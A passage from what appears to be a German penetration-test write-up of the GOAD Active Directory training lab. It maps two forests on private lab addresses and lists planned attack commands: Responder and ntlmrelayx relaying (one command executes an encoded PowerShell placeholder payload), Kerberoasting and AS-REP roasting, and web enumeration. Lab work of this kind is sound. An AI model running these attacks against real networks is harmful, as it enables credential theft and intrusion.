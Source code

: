 ## 5. Active Directory-Architektur

### 5.1 Forest-/Domain-Struktur

```
FOREST: sevenkingdoms.local
├── ROOT DOMAIN: sevenkingdoms.local (192.168.20.10)
└── CHILD DOMAIN: north.sevenkingdoms.local (192.168.20.11)
    └── MEMBER SERVER: castelblack.north.sevenkingdoms.local (192.168.20.22)

FOREST: essos.local
├── ROOT DOMAIN: essos.local (192.168.20.12)
└── MEMBER SERVER: braavos.essos.local (192.168.20.23)
```

### 5.2 Trust-Beziehungen

**Vermutung:** Bidirektionale Forest-Trusts zwischen `sevenkingdoms.local` und `essos.local` (typisch für GOAD-Lab)

---

## 6. Nächste Schritte in der Cyber Kill Chain

### Phase 2: Weaponization & Delivery

#### 6.1 Sofortige Angriffsmöglichkeiten

**SMB Relay-Angriffe:**
```bash
# Responder für NTLM-Capture
responder -I eth0 -rdwv

# ntlmrelayx gegen CASTELBLACK/BRAAVOS
ntlmrelayx.py -tf targets.txt -smb2support -c "powershell.exe -enc <base64_payload>"
```

**Kerberos-Angriffe:**
```bash
# Kerberoasting (falls Service Accounts existieren)
GetUserSPNs.py sevenkingdoms.local/user:password -dc-ip 192.168.20.10

# ASREPRoasting (für Benutzer ohne Pre-Auth)
GetNPUsers.py sevenkingdoms.local/ -dc-ip 192.168.20.10 -usersfile users.txt
```

#### 6.2 Web-Application-Testing

**IIS-Schwachstellen-Tests:**
```bash
# Directory Enumeration
dirb http://192.168.20.10/ /usr/share/dirb/wordlists/common.txt

# HTTP Methods Testing
nmap --script http-methods 192.168.20.10
```
